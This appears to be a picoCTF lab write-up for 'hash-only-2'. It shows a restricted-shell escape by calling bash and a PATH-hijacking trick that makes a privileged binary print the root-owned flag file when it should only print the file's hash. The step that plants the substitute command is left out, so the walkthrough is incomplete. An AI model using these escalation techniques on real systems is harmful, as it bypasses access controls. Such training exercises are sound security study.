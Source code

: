 # Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!Connect using `ssh @rescued-float.picoctf.net` with the password,  and run the binary named "flaghasher".

# Solution

This challenge should be related with [[hash-only-1]], first we identify that instead of our home directory the binary is in the /usr/local/bin path now.

```
ctf-player@pico-chall$ whereis flaghasher
flaghasher: /usr/local/bin/flaghasher
```

Seems like we are in a restricted shell that doesn't allow us to modify environment variables like we did before with [[hash-only-1]] or do other stuff like call files directly using a full path /xxx/xxx.

```
ctf-player@pico-chall$ /bin/bash
-rbash: /bin/bash: restricted: cannot specify `/' in command names
```

Just for the lulz we tested if we were able to call other shells like bash and that did the trick, we were able to escape the "restricted" shell.

```
ctf-player@pico-chall$ bash
ctf-player@challenge:~$ export PATH=./:$PATH
ctf-player@challenge:~$ echo $PATH
./:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf-player@challenge:~$ /usr/local/bin/flaghasher
Computing the MD5 hash of /root/flag.txt....

picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs}
```